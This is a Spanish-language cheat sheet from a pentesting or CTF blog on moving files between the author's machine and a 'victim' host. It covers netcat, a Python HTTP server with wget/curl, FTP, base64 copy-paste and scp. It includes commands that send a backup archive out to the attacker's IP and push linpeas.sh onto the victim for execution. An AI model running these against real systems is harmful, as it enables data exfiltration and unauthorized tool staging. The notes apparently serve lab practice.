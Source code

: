 ```yaml
---
title: Pasar Archivos
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajón Verde]
tags: [Linux, Transferencia Archivos]
---
```

## Maneras de pasar archivos entre máquinas

En máquina víctima recuerda pasarte a un directorio con permiso de escritura, tanto en `/tmp` como en `/shm` no hay problema.

---

Con netcat. Para pasar archivo de máquina víctima a la mía.

En mi máquina, usaremos el puerto 4448 por ejemplo:
```  
> nc -nlvp 4448 > backup.tgz  
```  
Ahora desde la víctima:  
```
> nc MIIP 4448 < backup.tgz
```
Siguiendo con netcat pero ahora al revés, para enviar de mi máquina a la víctima:

En máquina víctima:
```
> nc -nlvp 4448 > linpeas.sh
```
En mi máquina:
```
> nc IPVICTIMA 4448 < linpeas.sh
```

-----------------
Ahora desde servidor **python**:  
Me creo servidor  
```
> python3 -m http.server <puerto> 
```
Y ya en máquina víctima desde  una carpeta con capacidad de escritura(/tmp o /shm por ejemplo):  
```
> wget http://<miIp>:<puerto>/<archivo> (si es puerto 80 no hace falta ponerlo).
```

Ó;  
```
> curl http://miIp/<archivo> --output <ruta>
```
-------------------
Desde conexión **ftp** establecida en máquina víctima:  
```
> prompt off (para que no pregunte)
> mget * (descargar todo)
> exit 
```
Si quisiera subir al ftp víctima:  
```
put  <nameArchivo> (archivo que este en carpeta desde donde me conecté)
```
Y ya la tendríamos sin hacer nada más.

-----------------
Si no hubiera ni nc, ni curl, ni wget:  
```
> base64 -w 0 <nombreArchivo> | xclip -sel clip
```
Ó;  
```
> base64 -w 0 <name>; echo (y copias)
```
Y en máquina destino:
```
> echo <cadenaCopiada> | base64 -d > <name>
```
Si es ejecutable recuerda: 
```
> chmod +x <ejecutable>
```
Contexto: lo hicimos en GOODGAMES para script de escaneo de puertos

----------------------
Si te sabes las credenciales por **ssh** tenemos la herramienta scp:  
```
> scp <user>@><ip>:<rutaDesdeElHomedelUser> <nameExportacion>
por ejemplo:
> scp tomy@10.10.11.152:user.txt user.txt
```
----------------------
Pasar archivos de un windows a un linux, mi parrot por ejemplo, visto JSON. Esta información la situaremos en el Post de PasarArchivos en carpeta Windows.
